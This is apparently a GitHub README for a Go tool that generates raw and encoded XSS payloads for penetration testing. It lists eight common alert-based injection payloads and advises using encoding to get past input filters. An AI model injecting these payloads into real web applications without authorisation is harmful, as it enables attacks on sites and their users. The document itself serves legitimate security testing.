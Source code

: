 
# **XSS Payload Generator**

The **XSS Payload Generator** is a versatile and lightweight tool built with Go. It helps penetration testers and bug bounty hunters generate custom and encoded XSS payloads for testing vulnerabilities in web applications. Designed to save time and increase efficiency, this tool provides pre-defined payloads and supports multiple encoding options.

---

## **Features**
- **Predefined Payloads**:
  - A collection of common XSS payloads ready for testing.
- **Custom Payload Support**:
  - Generate encoded versions of your own payloads.
- **Multiple Encoding Options**:
  - Supports `base64`, `url`, `unicode`, and `hex` encoding.
- **Report Generation**:
  - Save generated payloads to a file for future use.
- **Lightweight and Efficient**:
  - Built with Go, ensuring speed and simplicity.

---

## **Installation**
1. **Clone the Repository**:
   ```bash
   git clone https://github.com/YamatoGr93/XSSPayloadGenerator.git
   cd XSSPayloadGenerator
   ```

2. **Build the Tool**:
   Compile the tool into a binary:
   ```bash
   go build -o xss-payload-generator main.go
   ```

3. **Run the Tool**:
   Use the compiled binary:
   ```bash
   ./xss-payload-generator [flags]
   ```

---

## **Usage**
```bash
go run main.go [flags]
```

### **Available Flags**
| Flag             | Description                                           | Default               |
|-------------------|-------------------------------------------------------|-----------------------|
| `-o`             | File to save the generated payloads                   | `payloads.txt`        |
| `-e`             | Encoding format (`base64`, `url`, `unicode`, `hex`)   | `none`                |
| `-p`             | Custom payload to encode                              | *None*                |

---

## **Examples**

### **Generate Predefined Payloads with URL Encoding**
```bash
go run main.go -e url -o juice_payloads.txt
```
Generates URL-encoded payloads and saves them to `juice_payloads.txt`.

### **Generate Predefined Payloads Without Encoding**
```bash
go run main.go -o raw_payloads.txt
```
Generates raw payloads and saves them to `raw_payloads.txt`.

### **Encode a Custom Payload**
```bash
go run main.go -p "<script>alert('XSS')</script>" -e base64 -o custom_payloads.txt
```
Encodes the custom payload in Base64 format and saves it to `custom_payloads.txt`.

---

## **Predefined Payloads**
The tool includes the following commonly used XSS payloads:
1. `<script>alert('XSS')</script>`
2. `"><script>alert('XSS')</script>`
3. `<img src="x" onerror="alert('XSS')">`
4. `<svg onload="alert('XSS')"></svg>`
5. `<body onload="alert('XSS')">`
6. `<iframe src="javascript:alert('XSS');"></iframe>`
7. `<link rel="stylesheet" href="javascript:alert('XSS')">`
8. `<div style="background-image: url('javascript:alert("XSS"));'></div>`

---

## **Planned Enhancements**
Future updates may include:
1. **Dynamic Integration**:
   - Automate testing by integrating payloads directly with web application endpoints.
2. **Context-Specific Payload Generation**:
   - Generate payloads optimized for attributes, HTML body, or JavaScript injection.
3. **Additional Encoding Formats**:
   - Add support for more advanced encoding formats to bypass modern filters.

---

## **Performance Tips**
- Test payloads in fields where user input is reflected without sanitization.
- Use encoding options to bypass certain input filters.
- Save payloads to a file for future use in bug bounty hunting.

---

## **License**
This project is licensed under the MIT License. See `LICENSE` for more details.

---

## **Acknowledgments**
- Inspired by OWASP Juice Shop for testing.
- Built with Go to showcase skills in development and penetration testing.
